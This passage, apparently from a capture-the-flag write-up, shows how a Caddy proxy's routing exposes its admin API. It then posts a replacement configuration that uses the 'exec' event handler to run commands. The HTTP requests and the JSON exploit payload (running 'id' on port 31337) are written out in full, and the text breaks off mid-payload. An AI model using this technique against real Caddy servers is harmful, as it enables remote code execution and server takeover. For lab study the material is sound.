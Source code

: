 ```http
HTTP/1.1 200 OK
Content-Length: 1006
Content-Type: application/json
Date: Sun, 25 May 2025 07:15:41 GMT
Etag: "/config/ 57464b408cd1fac3"
Via: 1.1 Caddy
{"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"defaults":["{http.regexp.stripHostPort.2}"],"destinations":["{targetPort}"],"handler":"map","mappings":[{"outputs":[80]}],"source":"{http.regexp.stripHostPort.2}"},{"defaults":["{http.regexp.stripHostPort.3}"],"destinations":["{targetPath}"],"handler":"map","mappings":[{"outputs":["/"]}],"source":"{http.regexp.stripHostPort.3}"}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"group":"group0","handle":[{"handler":"rewrite","uri":"{targetPath}"}]},{"handle":[{"handler":"reverse_proxy","headers":{"request":{"set":{"Host":["{http.regexp.stripHostPort.1}:{targetPort}"]}}},"upstreams":[{"dial":"{http.regexp.stripHostPort.1}:{targetPort}"}]}]}]}],"match":[{"path_regexp":{"name":"stripHostPort","pattern":"^\\/([^\\/]+?)(?::(\\d+))?(\\/.*)?$"}}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"handle":[{"handler":"vars","root":"./"},{"handler":"file_server","hide":["/app/Caddyfile"]}]}]}]}]}}}}}
```

### Custom configuration with RCE module
We can access the admin API and send any POST request, so the next step is to achieve RCE, but how?. The admin API `/load` can be used to override current configuration in real time with a simple POST request. I searched for some RCE potential and found [module "exec"](https://caddyserver.com/docs/modules/events.handlers.exec). The description of the module is very simple:
```
events.handlers.exec implements an event handler that runs a command/program. By default, commands are run in the background so as to not block the Caddy goroutine.
```
So we have a very easy way to RCE. Let's rewrite the current configuration:

```http
POST /127.0.0.1:2019/load HTTP/1.1
Host: [container]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json
Content-Length: 613
{
  "apps": {
    "http": {
      "servers": {
        "exploit": {
          "listen": [":31337"], 
          "routes": [
            {
              "match": [{"path": ["/trigger"]}],
              "handle": [
                {
                  "handler": "exec",
                  "command": "id", 
                  "args": [],
                  "timeout": 10
                },
                {
                  "handler": "static_response",
```